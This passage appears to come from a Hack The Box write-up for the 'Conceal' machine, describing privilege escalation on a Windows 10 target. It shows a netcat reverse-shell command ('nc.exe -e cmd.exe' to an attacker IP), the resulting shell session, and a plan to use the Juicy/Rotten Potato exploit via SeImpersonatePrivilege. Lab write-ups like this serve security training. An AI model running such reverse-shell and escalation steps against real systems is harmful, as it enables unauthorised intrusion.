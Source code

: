 ![](/assets/images/htb-writeup-conceal/userflag.png)

### Privesc

The upload directory is located here: `C:\inetpub\wwwroot\upload\snow.asp`

To get a proper shell, we can upload `nc.exe` and run it with `C:\inetpub\wwwroot\upload\nc.exe -e cmd.exe 10.10.14.23 80`

```
# nc -lvnp 80
listening on [any] 80 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.116] 49684
Microsoft Windows [Version 10.0.15063]
(c) 2017 Microsoft Corporation. All rights reserved.

C:\Windows\SysWOW64\inetsrv>whoami
conceal\destitute

C:\Windows\SysWOW64\inetsrv>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeShutdownPrivilege           Shut down the system                      Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
```

Running `whoami /priv`, we see that the rights for the user will allow us to use the RottenPotato exploit to elevate to NT AUTORITY/SYSTEM.

We need to pick the appropriat CLSID for our OS so first we'll check which Windows version is running:

```
C:\inetpub\wwwroot\upload>systeminfo
systeminfo

Host Name:                 CONCEAL
OS Name:                   Microsoft Windows 10 Enterprise
OS Version:                10.0.15063 N/A Build 15063
```

Next, we check the [https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md](https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md) site for a list of CLSID for the OS.
